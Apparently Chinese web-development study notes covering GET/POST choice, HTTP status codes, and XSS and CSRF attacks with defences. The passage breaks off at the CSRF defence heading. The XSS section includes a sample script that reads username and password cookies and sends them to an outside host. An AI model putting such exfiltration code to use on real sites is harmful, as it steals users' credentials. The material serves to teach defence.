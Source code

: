**选择**

- **私密性**的信息请求使用 POST（如注册、登陆）
- **查询**信息使用 GET



### 常见状态码

- 200 (OK)：找到了该资源，并且一切正常。
- 301(MOVED PERMANENTLY)：永久性重定向，表示资源已被分配了新的 URL。
- 302 (FOUND)：临时性重定向，表示资源临时被分配了新的 URL。服务器目前从不同位置的网页响应请求，但请求者应继续使用原有位置来响应以后的请求。
- 304 (NOT MODIFIED)：该资源在上次请求之后没有任何修改。这通常用于浏览器的缓存机制。
- 401 (UNAUTHORIZED)：客户端无权访问该资源。这通常会使得浏览器要求用户输入用户名和密码，以登录到服务器。
- 403 (FORBIDDEN)： 客户端未能获得授权，服务器拒绝请求。这通常是在401之后输入了不正确的用户名或密码。
- 404 (NOT FOUND)：在指定的位置不存在所申请的资源。
- 500 (服务器内部错误)：服务器遇到错误，无法完成请求。
- 503 (服务不可用)：服务器目前无法使用（由于超负载或停机维护）。通常这只是暂时状态。



### XSS、CSRF 和 DDoS

**XSS（Cross-Site Scripting）：跨站脚本攻击**

- **跨站脚本攻击**(为了和CSS区分开缩写为XSS)，是一种代码注入攻击。攻击者在目标网站上注入恶意代码，当用户登陆网站时就会执行这些恶意代码，这些脚本可以读取 cookie，session tokens，或者其它敏感的网站信息，进而危害数据安全。

- XSS 的本质是因为网站没有对恶意代码进行过滤，与正常的代码混合在一起了，浏览器没有办法分辨哪些脚本是可信的，从而导致了恶意代码的执行。

- 例如：在下面逻辑中，脚本中获取了你的个人信息，并将你的个人信息发送到后端 `php` 文件中进行处理保存，这样你的个人信息就已经泄露了

  ```javascript
  // attack.js 中的逻辑
  var uname = $.cookie('username'); // 获取账号
  var pwd = $.cookie('password'); // 获取密码
  
  // 发送请求
  $('body').appendTo('<script src=`http://autofelix.com/index.php?username=${uname}&password=${pwd}`></script>');
  ```

- **防御方式**：

  - **纯前端渲染**：我们会明确的告诉浏览器：下面要设置的内容是文本（`.innerText`），还是属性（`.setAttribute`），还是样式（`.style`）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了。
  - **转义 HTML**：如果拼接 HTML 是必要的，就需要采用合适的转义库，对 HTML 模板各处插入点进行充分的转义
  - 使用 CSP：CSP 意为内容安全策略，它的本质是指定有效域(建立一个白名单)，告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截由浏览器自己来实现。

**CSRF（Cross-site request forgery）：跨站请求伪造**

- **跨站请求伪造**，攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。
- 由于 Cookie 中包含了用户的认证信息，当用户访问攻击者准备的攻击环境时，攻击者就可以对服务器发起 CSRF 攻击。在这个攻击过程中，攻击者借助受害者的 Cookie 骗取服务器的信任，但**并不能拿到 Cookie**，也看不到 Cookie 的内容。而对于服务器返回的结果，由于浏览器同源策略的限制，攻击者也无法进行解析。因此，攻击者无法从返回的结果中得到任何东西，他所能做的就是给服务器发送请求，以执行请求中所描述的命令，在服务器端直接改变数据的值，而非窃取服务器中的数据。
  ![img](https://img-blog.csdnimg.cn/abd22ed327064f94b047c0cfac3de593.jpeg#pic_center)
- **防御方式**：

